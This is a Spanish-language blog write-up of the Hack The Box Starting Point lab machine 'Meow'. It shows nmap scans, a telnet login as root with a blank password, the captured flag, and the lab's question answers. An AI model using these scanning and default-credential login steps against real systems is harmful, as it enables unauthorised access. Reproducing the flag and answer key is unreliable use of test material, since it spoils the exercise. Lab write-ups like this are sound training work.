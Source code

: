 ```yaml
---
layout: single
title: <span class="htb">Meow - Starting point - Hack The Box</span>
excerpt: "En este post vamos a comenzar con las máquinas del starting point del tier 0, la primera es Meow y será la elegida para este primer write up.
Me voy a centrar en el proceso de explotación ya que exiten diferentes preguntas las cuales no aportan elementos de valor, en el caso de que sean indispensables
para llevar acabo la explotación citaré los recursos en el proceso."
date: 2022-07-06
classes: wide
header:
  teaser: /assets/images/Meow/Descripcion_meow.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.png
categories:
  - Hack The Box
  - Starting point
  - Tier 0
tags: 
  - Telnet
  - Nmap
---
```


## Descripcion

En este post vamos a comenzar con las máquinas del starting point del tier 0, la primera es Meow y será la elegida para este primer write up.
Me voy a centrar en el proceso de explotación ya que exiten diferentes preguntas las cuales no aportan elementos de valor, en el caso de que sean indispensables
para llevar acabo la explotación citaré los recursos en el proceso.

## Indice

- [Escaneo de puertos](#escaneo-de-puertos)
- [Conexión por telnet](#conexion-por-telnet)
- [Respuestas HTB](#respuestas)

## Escaneo de puertos

Vamos a lanzar un escaneo básico para encontrar los puertos abiertos en la máquina.

### Nmap para encontrar puertos abiertos

```
nmap --open -p- 10.129.74.180 -T5 -oG Puertos
Host: 10.129.74.180 ()  Status: Up
Host: 10.129.74.180 ()  Ports: 23/open/tcp//telnet///

```

Podemos ver que el protocolo telnet esta abierto, lanzaremos los scripts predeterminados de nmap al puerto 23.

### Nmap con scripts de reconocimiento predeterminados
```
nmap -sCV -p 23 -oN Objetivos 10.129.1.17
Nmap scan report for 10.129.1.17
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Por lo que se puede ver es una máquina linux, pero no obtenemos demasiada información, al no encontrar más puertos por los que intentar comprometer el host, podemos proceder a logueranos
por telnet.

## Conexion por telnet

Intentamos conectarnos con `Usuario:root`.

```
❯ telnet 10.129.1.17
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 06 Jul 2022 01:03:13 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:fe96:d4ec

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# 
```

Por un error de configuración el usuario root no tiene contraseña dando acceso a la máquina de forma instantánea. Siendo root solo nos queda buscar la flag.

```
root@Meow:~# pwd
/root
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19

```
Hemos explotado la primera máquina del starting point tier 0 con èxito. 

## Respuestas

### Pregunta 1

What does the acronym VM stand for?

`Virtual Machine`

### Pregunta 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

`terminal`

### Pregunta 3

What service do we use to form our VPN connection into HTB labs?

`openvpn`

### Pregunta 4

What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?

`tun`

### Pregunta 5

What tool do we use to test our connection to the target with an ICMP echo request?

`ping`


### Pregunta 6

What is the name of the most common tool for finding open ports on a target?

`nmap`

### Pregunta 7

What service do we identify on port 23/tcp during our scans?

`telnet`

### Pregunta 8

What username is able to log into the target over telnet with a blank password?

`root`


### Bandera

Submit root flag

`b40abdfe23665f766f9c61ecba8a4c19`


